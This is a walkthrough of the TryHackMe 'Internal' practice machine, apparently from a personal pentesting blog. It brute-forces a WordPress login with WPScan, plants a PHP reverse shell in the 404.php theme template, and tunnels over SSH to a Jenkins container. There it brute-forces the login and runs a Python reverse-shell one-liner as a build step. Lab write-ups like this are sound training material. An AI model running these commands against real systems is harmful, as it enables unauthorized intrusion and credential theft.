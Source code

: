 ```yaml
---
layout: default
title: "Internal"
tags: TryHackMe
description: "Find your way through the WordPress site and escalate your privileges within a Docker container with Jenkins."
---
```


[Internal](https://tryhackme.com/room/internal) is the last machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

As I'm starting to prepare for my "Dry run" for the `OSCP` exam,  this time I will use more stuff from my methodology.  
We already learned that enumeration is crucial, right? So why would you leave a chance to mess it up, if you have more automated tools?  
Today I would use [Autorecon](https://github.com/Tib3rius/AutoRecon) for my initial enumeration.  
The syntax is simple:

```
autorecon <target_ip>
```
The tool will generate a bunch of scans and put all the results in a folder. Easy to follow up, easy to keep notes.  
Navigate to the `results/<target_ip>/report/notes.txt` and you will see all open ports:

```
[*] ssh found on tcp/22.



[*] http found on tcp/80.


```
You can keep track of your actions for each port right here.  
Secondly, `results/<target_ip>/scans/` folder contains all the fun stuff. If the tool will pick up a port, let's say port `80`, it will automatically start a sub-scan for tools like `nikto`,`gobuster`, etc.  
You will still need to analyze all of that stuff and maybe repeat some `gobuster` scans for subfolders, but just by using this tool, you increase your chance to find juicy stuff on your target.  
You might also like to use the `Sparta` for that, but I like the `Autorecon` a bit more.

---

## Exploitation

So, `Autorecon` picked up that there is a folder `/blog` on port `80`. You can see that the `WordPress` is running there, navigate to the panel, and try to login with something trivial as `admin:admin`.  

> internal.thm need to be added to the `/etc/hosts`

You will get the error message `Error: The password you entered for the username admin is incorrect.`.  
Now we know that the `admin` is a correct username, but the password is wrong.  
Let's use the `WPScan` to learn more about this setup and bruteforce the password:

```
wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.7

       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```
After a while the `WPScan` will wind the correct password for you:
```
[!] Valid Combinations Found:
 | Username: admin, Password: <redacted>
```
A standard way is to navigate to the `Theme editor`, and add a `php-reverse-shell` instead of one of the pages in a template.  
I usually go for `404.php` as it easy to trigger.  
You can grab your template for a reverse shell from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Don't forget to change your IP and port.  

If you're placing your shell instead of `404.php` page, you can trigger it by opening a page on the server that doesn't exist.
```
http://internal.thm/blog/index.php/41414141/
```

Catch the shell with the `nc`.

You can find the username `aubreanna` in the `/home` directory, but you can't access it yet.  
Let's look around.  

If you're stuck, check interesting directories like `/var/backups`, `/tmp`, `/opt`, etc. and check is there anything that stood out.  
The `/opt` directory in our case contains the file `wp-save.txt`:

```
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:<reducted>
```

Now we can `ssh` to the box as user `aubreanna`:

```
ssh aubreanna@<target_ip>
```

Let's check what we have in the `/home` directory:
```
/home/aubreanna# ls
jenkins.txt  snap  user.txt
```

---

## PrivEsc

To PrivEsc here we need to enumerate a bit more:

```
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

IP looks weird, it's different from the `<target_ip>`.

```
ip a

3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:a7:d9:5d:ec brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:a7ff:fed9:5dec/64 scope link
       valid_lft forever preferred_lft forever
```

Now we know that we are dealing with the `Docker` container with `Jenkins` inside.

To access it we can use `ssh-tunneling`:

```
ssh -L 8080:172.17.0.2:8080 aubreanna@<target_ip>
```

Now you can open `localhost:8080` in your browser and get access to the `Jenkins` login page.  
We don't have any credentials that will work here, so let's try a bruteforcing again.  

This time I will use `TurboIntruder` - the extension for the `Burp Suite`.
You can read more about it [here](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack).
I used `basic.py` script for the `TurboIntruder` and the `rockyou.txt` as a wordlist.  

You will find the password in less than a minute. You can say that by sorting the `Length` tab and finding the lowest size of the response.

Now you have access to `Jenkins`!

You can create the new `Build` and choose `Execute shell` in the options.  
I used the `python` reverse shell from `PentestMonkey` as a parameter:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Click `Build now` and catch your shell with the `nc`.  

```
jenkins@jenkins:/opt$ whoami
jenkins

jenkins@jenkins:/opt$ uname -a
Linux jenkins 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 GNU/Linux
```

We are within a `Docker` container now. Let's look around.

Frankly speaking, I expected to see something from [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) as a way to escape from the container, but the solution was way more simple.  
```
jenkins@jenkins:~$ cd /opt
jenkins@jenkins:/opt$ ls
note.txt
jenkins@jenkins:/opt$ cat note.txt

Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:<redacted>
```

Now you can `su` from the main box to the `root` user.

## Takeaway
- Sometimes, you feel that the solution is so easy, so you stumble the fact that each system could be different. Do not assume anything. Even the path that you followed 100 times before might not work out on 101st.  
- You can't rely on your enumeration tools 100% of the time, those `.txt` notes would be found by most of them
